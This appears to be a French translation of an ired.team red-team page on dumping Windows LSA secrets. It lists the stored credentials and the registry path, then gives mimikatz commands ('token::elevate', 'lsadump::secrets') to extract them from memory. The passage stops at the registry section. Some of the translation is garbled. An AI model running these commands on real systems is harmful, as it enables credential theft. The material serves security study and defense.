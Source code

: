 Vidage des secrets LSA
======================

> ####
>
> [](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets#what-is-stored-in-lsa-secrets)
>
> Qu'est-ce qui est stocké dans les secrets LSA ?
>
> À l'origine, les secrets contenaient des enregistrements de domaine mis en cache. Plus tard, les développeurs Windows ont élargi le domaine d'application du stockage. À ce moment, ils peuvent stocker les mots de passe textuels des utilisateurs de PC, les mots de passe des comptes de service (par exemple, ceux qui doivent être exécutés par un certain utilisateur pour effectuer certaines tâches), les mots de passe Internet Explorer, les mots de passe de connexion RAS, les mots de passe SQL et CISCO, le compte SYSTÈME. mots de passe, données utilisateur privées telles que les clés de cryptage EFS et bien plus encore. Par exemple, le secret *NL$KM* contient la clé de chiffrement du mot de passe du domaine mis en cache.

[](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets#storage)

Stockage

---------------------------------------------------------------------------------------------------------------------------------

Les secrets LSA sont stockés dans le registre :

Copie

```
HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets
```

![](https://www.ired.team/~gitbook/image?url=https:%2F%2F386337598-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-LFEMnER3fywgFHoroYn%252F-L_nYmCFo8ktkxF6qft3%252F-L_nZ7oFKOEfqjALlDeR%252FScreenshot%2520from%25202019-03-12%252020-20-39.png%3Falt=media%26token=89ffe933-7352-4323-ab6d-9f1e93213da4&width=768&dpr=4&quality=100&sign=48cdb9addcf03975605fe0f03d1a6433ed4c890d47f1a624ff46e15e1b391190)

[](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets#execution)

Exécution

------------------------------------------------------------------------------------------------------------------------------------

###

[](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets#memory)

Mémoire

Les secrets peuvent être supprimés de la mémoire comme suit :

attaquant@mimikatz

Copie

```
token::elevate
lsadump::secrets
```

![](https://www.ired.team/~gitbook/image?url=https:%2F%2F386337598-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-LFEMnER3fywgFHoroYn%252F-L_nYmCFo8ktkxF6qft3%252F-L_n_A3tA2xMOaYQtxTp%252FScreenshot%2520from%25202019-03-12%252020-25-01.png%3Falt=media%26token=da194e49-eefd-47dc-984b-9a354ef80f85&width=768&dpr=4&quality=100&sign=74c1ceafd23c0602916d4329896a5c76a0795c60474b5c7c813fdcacdc4e7efb)

###

[](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets#registry)

Enregistrement
